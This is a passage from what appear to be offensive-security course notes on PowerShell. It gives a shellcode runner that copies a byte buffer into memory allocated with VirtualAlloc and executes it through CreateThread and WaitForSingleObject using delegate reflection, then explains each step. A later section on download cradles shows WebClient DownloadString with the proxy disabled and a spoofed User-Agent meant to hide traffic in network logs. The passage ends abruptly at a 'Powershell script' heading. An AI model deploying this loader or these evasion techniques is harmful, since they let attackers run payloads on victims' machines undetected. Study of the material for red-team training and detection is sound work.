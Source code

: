     [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

    $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)

&nbsp;

Explanation:

1. The LookUp Function and has Already been explained in the above topics.
2. We first fetch the address of the _VirtualAlloc_ Win32 API, we then call the getDelegateType Function.
3. We then call the GetDelegateForFunctionPointer and pass the address and delegate type as arguments, this is stored in a variable.
4. We then invoke the above variable with the arguments - (Address, size, Allocation Type, protection)
5. The $buf variable stores the generated shellcode
6. This is copied into the created memory using the .Net Copy Function.
7. Thread is Created using the _CreateThread_ by following the same steps as the _VirtualAlloc_ with Delegation.
8. We also Invoke the _WaitForSingleObject_ using the same above steps. The arguments are the same as passed in previous snippets.

&nbsp;

# Working With Proxy

- The Net.WebClient cradle used in powershell is proxy aware. It can automatically route seamlessly through proxies.
- In case proxy is to be disabled, we can set the proxy method to null
- Code :
  $wc = new-object system.net.WebClient
  $wc.proxy = $null
  $wc.DownloadString("<link>")

- We Can also change the User-Agent if required, this can be used to mask our identity in network logs.
- Code :
  $wc = new-object system.net.WebClient
  $wc.Headers.Add('User-Agent', "<User-Agent name>")
  $wc.DownloadString("<link>")

- The powershell download cradle using SYSTEM integrity **does not have proxy configuration set**.
- This can however be solved by copying the proxy address from the Local Users Registry Keys to the System Registry keys.

&nbsp;

Powershell script :
